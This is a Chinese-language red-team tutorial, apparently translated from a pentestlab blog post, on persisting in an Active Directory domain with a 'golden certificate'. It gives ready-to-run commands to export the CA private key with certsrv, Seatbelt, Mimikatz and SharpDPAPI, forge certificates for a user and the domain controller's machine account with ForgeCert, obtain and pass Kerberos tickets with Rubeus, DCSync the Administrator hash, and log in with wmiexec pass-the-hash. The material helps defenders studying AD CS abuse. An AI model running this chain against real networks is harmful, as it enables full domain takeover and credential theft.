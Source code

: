 ## 利用黄金证书劫持域控
域控渗透最常见的域持久性技术之一是黄金票据攻击，它涉及使用“ krbtgt ”的 NTLM 哈希创建 kerberos 票证。“ 帐户。但是在部署了 Active Directory 认证服务 (AD CS) 的服务器的域中，可能会在发生入侵时被滥用以实现域持久性。通过窃取 CA 证书的私钥，红队可以伪造和签署证书以用于身份验证。在部署 Active Directory 证书服务 (AD CS) 期间，域中默认启用基于证书的身份验证。因此，需要将这些系统视为第 0 层资产并得到适当保护。

通过黄金证书执行域持久化需要以下步骤：
1.	证书提取 (CA)
2.	伪造CA证书
3.	获取 Kerberos 票证（DC 的机器账户）
4.	执行pass票证

# 证书提取
CA 证书和私钥存储在 CA 服务器中。使用与系统的 RDP 连接，可以使用“ certsrv.msc ”的备份功能检索这些信息。

![](/img/利用黄金证书劫持域控/1.png)

<center>
certsrv – 备份 CA
</center>
在证书颁发机构备份向导中，私钥和 CA 证书都可以导出到指定位置。
<center>
![](/img/利用黄金证书劫持域控/2.png)
</center>
<center>
certsrv – 私钥和备份位置
</center>
CA 证书将导出为 p12 文件（个人信息交换）。
<center>
![](/img/利用黄金证书劫持域控/3.png)
</center>
<center>
certsrv – 提取的 CA
</center>
但是，还有多种其他方法可用于从服务器提取 CA 证书和私钥。使用参数“ Certificates ”执行Seatbelt可以枚举存储的CA证书。

    Seatbelt.exe Certificates
<center>
![](/img/利用黄金证书劫持域控/4.png)
</center>
<center>
Seatbelt – 本地机器
</center>
Mimikatz 还可以与加密存储进行交互，以检索和导出证书和私钥。修补“ CryptoAPI ”和“ KeyIso ”不可导出的密钥将可以从许多密钥提供程序导出。

    privilege::debug
    crypto::capi
    crypto::cng
    crypto::certificates /systemstore:local_machine /store:my /export
<center>
![](/img/利用黄金证书劫持域控/5.png)
</center>
<center>
Mimikatz – 导出证书
</center> 

<center>
![](/img/利用黄金证书劫持域控/6.png)
</center>
<center>
Mimikatz - CA 证书
</center>

证书将以 .DER 和 .PFX 格式提取到磁盘上。
<center>
![](/img/利用黄金证书劫持域控/7.png)
</center>

SharpDPAPI也可用于提取证书。执行“ certificates /machine ”命令将使用机器证书存储来提取可解密的机器证书和私钥。

    SharpDPAPI.exe certificates /machine
<center>
![](/img/利用黄金证书劫持域控/8.png)
</center>
<center>
SharpDPAPI – 机器证书
</center>

私钥和证书都将显示在控制台中。
<center>
![](/img/利用黄金证书劫持域控/9.png)
</center>
<center>
SharpDPAPI - CA 证书
</center>
 
提取的私钥和证书可以写入扩展名为 .PEM 的文件中。执行以下命令可以将证书转换为可用格式，如 .PFX 允许用于使用 Rubeus 进行身份验证。

    openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
<center>
![](/img/利用黄金证书劫持域控/10.png)
</center>
<center>
将证书转换为 PFX
</center> 

# 伪造CA证书
Mimikatz 可用于通过使用“ crypto::scauth ”模块来伪造和签署证书。该模块最初是为创建智能卡身份验证客户端证书而开发的。所需的参数是证书颁发机构的主题名称和将创建证书的用户的用户主体名称。可选项，“ /pfx ”参数可用于定义将要创建的证书的文件名。

    crypto::scauth /caname:ca /upn:pentestlab@purple.lab
<center>
![](/img/利用黄金证书劫持域控/11.png)
</center>
<center>
伪造CA证书——Mimikatz
</center> 

或者，ForgeCert是由Lee Christensen在 C# 中开发的，它使红队能够使用 CA 证书为任何域用户伪造证书进行身份验证。该工具可以注入内存中执行，并将文件写入磁盘。执行以下命令将为“ pentestlab ”用户创建一个假证书，该证书将由 CA 证书的私钥签名。

    ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName pentestlab@purple.lab --NewCertPath localadmin.pfx --NewCertPassword Password123
<center>
![](/img/利用黄金证书劫持域控/12.png)
</center>
<center>
伪造CA证书-域用户
</center> 

应该注意的是，必须为域上的活动用户创建证书。因此它不能用于“ krbtgt ”帐户。伪造证书的有效期为1年，只要CA证书有效（一般为5年）就有效。除了域用户帐户外，机器帐户也可用于域持久性，因为可以使用 DCSync、Pass the Ticket 和 S4U2Self 等技术。

    ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName DC$@purple.lab --NewCertPath DC$.pfx --NewCertPassword Password123
<center>
![](/img/利用黄金证书劫持域控/13.png)
</center>
<center>
伪造证书-机台账
</center> 

# Kerberos 票证
可以使用伪造的证书从密钥分发中心 (KDC) 请求 Kerberos 票证以进行身份验证。

    Rubeus.exe asktgt /user:pentestlab /certificate:localadmin.pfx /password:Password123
<center>
![](/img/利用黄金证书劫持域控/14.png)
</center>
<center>
Rubeus – Kerberos 票证 
</center>  
 
<center>
![](/img/利用黄金证书劫持域控/15.png)
</center>
<center>
Rubeus - 域用户票
</center>  

# 通过票证
可以从域中的任何主机使用属于域控制器的机器帐户的证书来请求 Kerberos 票证。执行以下命令将检索 base64 格式的票证。

    Rubeus.exe asktgt /user:DC$ /certificate:DC$.pfx /password:Password123
<center>
![](/img/利用黄金证书劫持域控/16.png)
</center>
<center>
Rubeus - 请求 DC 机器帐户的票证 
</center> 

<center>
![](/img/利用黄金证书劫持域控/17.png)
</center>
<center>
DC 机器帐户 Base64 票证 
</center> 

base64 票证可以被解码并写入扩展名为 .kirbi 的文件中。

    echo "<base64>" | base64 -d > dc$.kirbi
<center>
![](/img/利用黄金证书劫持域控/18.png)
</center>
<center>
将 Base64 票证转换为 Kirby
</center>  

票证可以传输到任何 Windows 主机，并使用传递票证技术导入任何用户会话。

    Rubeus.exe ptt /ticket:dc$.kirbi
<center>
![](/img/利用黄金证书劫持域控/19.png)
</center>
<center>
Rubus – 通过票证
</center>

由于票据属于域控制器的计算机帐户，因此可以执行提升的活动，例如 DCSync。从当前执行 Mimikatz 并运行以下命令的会话中，将检索作为域管理员帐户的用户 Administrator 的 NTLM 哈希。

    lsadump::dcsync /user:Administrator
<center>
![](/img/利用黄金证书劫持域控/20.png)
</center>
<center>
Mimikatz – DCSync
</center>

散列可用于通过散列技术或通过 WMI 连接建立对域控制器的访问。

    python3 wmiexec.py -hashes :58a478135a93ac3bf058a5ea0e8fdb71 Administrator@10.0.0.1
<center>
![](/img/利用黄金证书劫持域控/21.png)
</center>
<center>
WMI 连接 - 域控制器
</center> 


参考链接：
https://github.com/GhostPack/Seatbelt
https://github.com/GhostPack/SharpDPAPI
https://github.com/GhostPack/ForgeCert
https://pentestlab.blog/2021/11/15/golden-certificate/
